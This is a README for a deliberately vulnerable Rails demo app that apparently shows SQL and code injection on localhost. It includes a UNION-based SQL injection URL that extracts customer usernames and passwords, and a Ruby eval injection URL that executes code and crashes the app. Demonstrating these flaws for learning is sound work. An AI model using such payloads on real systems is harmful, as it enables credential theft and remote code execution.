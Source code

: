 # README

Just a dumb test project and a super simplistic proof of concept for SQL and code injection. 
empty
```bash
bundle install
rails db:setup
```

Then create some stuff in the db so you can play around with it
```ruby
FactoryBot.create_list :product, 20
FactoryBot.create_list, :customer, 10
```

[http://localhost:3007/products](http://localhost:3007/products)

[Example of unsafe query](http://localhost:3007/products?query=%27%29+UNION+select+customers.id%2C++customers.first_name+AS+name%2C+customers.username+AS+cost%2C+customers.password+AS+description%2C+customers.created_at%2C+customers.updated_at+FROM+customers+--&commit=Search)

[Remote code exec that breaks the app](http://localhost:3007/products?query=&attribute=id%3B%20Object.class_eval%7B%20eval%28%27undef%20method%27%29%7D&unsafe_mode=1&commit=Unsafe+search)
